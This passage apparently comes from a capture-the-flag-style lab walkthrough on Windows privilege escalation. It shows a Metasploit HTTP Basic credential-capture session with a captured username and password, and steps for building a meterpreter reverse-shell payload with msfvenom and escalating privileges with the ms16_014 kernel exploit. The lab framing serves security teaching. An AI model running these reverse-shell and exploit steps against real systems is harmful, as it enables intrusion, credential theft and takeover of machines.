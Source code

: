 ~~~
msf5 > use auxiliary/server/capture/http_basic
msf5 auxiliary(server/capture/http_basic) > set URIPATH x
URIPATH => x
msf5 auxiliary(server/capture/http_basic) > set SRVPORT 8000
SRVPORT => 8000
msf5 auxiliary(server/capture/http_basic) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/capture/http_basic) > 
[*] Using URL: http://0.0.0.0:8000/x
[*] Local IP: http://192.168.1.46:8000/x
[*] Server started.
[*] Sending 401 to client 10.10.177.81
[+] HTTP Basic Auth LOGIN 10.10.177.81 "crazy:m0narch1!" / /x
~~~

# [Task 14] Privilege Escalation - Kernel Exploits

## #14.0 - Instructions

**Establish a shell**

Kali VM

1. Open command prompt and type: `msfconsole`
2. In Metasploit (msf > prompt) type: `use multi/handler`
3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp`
4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
5. In Metasploit (msf > prompt) type: `run`
6. Open an additional command prompt and type: `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe > shell.exe`
7. Copy the generated file, shell.exe, to the Windows VM.

Windows VM

1. Execute shell.exe and obtain reverse shell

**Detection & Exploitation**

Kali VM

1. In Metasploit (msf > prompt) type: `run post/multi/recon/local_exploit_suggester`
2. Identify "exploit/windows/local/ms16_014_wmi_recv_notif" as a potential privilege escalation
3. In Metasploit (msf > prompt) type: `use exploit/windows/local/ms16_014_wmi_recv_notif`
4. In Metasploit (msf > prompt) type: `set SESSION [meterpreter SESSION number]`
5. In Metasploit (msf > prompt) type: `set LPORT 5555`
6. In Metasploit (msf > prompt) type: `run`

*NOTE: The shell might default to your eth0 during this attack.  If so, ensure you type set lhost [Kali VM IP Address] and run again.*

## #14.1 - Click 'Completed' once you have successfully elevated the machine
